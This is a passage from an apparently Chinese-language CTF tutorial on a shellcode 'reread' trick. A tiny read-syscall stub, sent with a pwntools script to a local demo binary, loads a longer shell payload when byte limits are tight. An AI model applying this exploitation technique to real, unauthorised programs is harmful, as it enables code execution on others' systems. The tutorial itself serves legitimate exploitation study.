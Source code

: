 ### reread

有时候题目给的字节数实在太少，不足以支持我们来构造一个 execve 的 shell 怎么办？这时候我们可以想到可以写一个 read 的系统调用来向 shellcode 的运行处写入更多数据，从而能够写入足够长度的 shellcode

构造函数 read(0,addr,len)

此时我们需要观察一下在调用 shellcode 前寄存器的情况

以上面的 demo 为例

[![](assets/1708940669-e1a9a349a7e5526ffade3d9da33ef8f2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240223205731-1af5d9a8-d24b-1.png)

由于刚好此程序在调用 shellcode 前就调用了一个 read，此时的寄存器我们只需要控制 rax 为 read 系统调用号即可

shellcode 如下：

```plain
from pwn import *
context.log_level='debug'
context(os='linux',arch = 'amd64')
io = process('./test')

rea = asm('''
    xor eax,eax 
    syscall
''')
io.sendafter(':\n',rea)
io.interactive()
```
